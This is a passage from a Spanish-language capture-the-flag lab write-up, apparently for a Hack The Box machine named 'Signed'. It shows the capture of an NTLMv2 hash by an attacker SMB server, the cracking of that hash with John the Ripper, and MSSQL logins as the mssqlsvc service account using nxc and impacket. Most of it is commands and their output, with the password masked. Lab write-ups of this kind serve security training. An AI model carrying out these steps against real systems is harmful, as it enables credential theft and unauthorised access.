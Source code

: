 Observa el **servidor SMB**:
```bash
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.90,63144)
[*] AUTHENTICATE_MESSAGE (SIGNED\mssqlsvc,DC01)
[*] User DC01\mssqlsvc authenticated successfully
[*] mssqlsvc::SIGNED:aaaaaaaaaaaaaaaa:50925......
[*] Closing down connection (10.10.11.90,63144)
[*] Remaining connections []
```
Capturamos el **Hash NTLM**, así que vamos a crackearlo.

<br>

<h3 id="CrackHash">Crackeando Hash NTLM y Conectandonos al Servicio MSSQL con Usuario mssqlsvc</h3>

Usaremos la herramienta **JohnTheRipper** para crackear el **Hash NTLM**:
```bash
john -w:/usr/share/wordlists/rockyou.txt mssqlsvc.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********     (mssqlsvc)     
1g 0:00:00:04 DONE (2025-10-18 14:29) 0.2409g/s 1081Kp/s 1081Kc/s 1081KC/s purcitititya..pupe066505878
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña.

Comprobemos si esta contraseña funciona para autenticarnos en el **servicio MSSQL**:
```bash
nxc mssql 10.10.11.90 -u 'mssqlsvc' -p '**********'
MSSQL       10.10.11.90     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:SIGNED.HTB)
MSSQL       10.10.11.90     1433   DC01             [+] SIGNED.HTB\mssqlsvc:**********
```
Excelente, si funciona.

Autentiquémonos:
```batch
impacket-mssqlclient 'signed.htb/mssqlsvc:**********'@10.10.11.90 -windows-auth
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  guest@master)>
```
Ahora somos el **usuario mssqlsvc** en la máquina víctima.
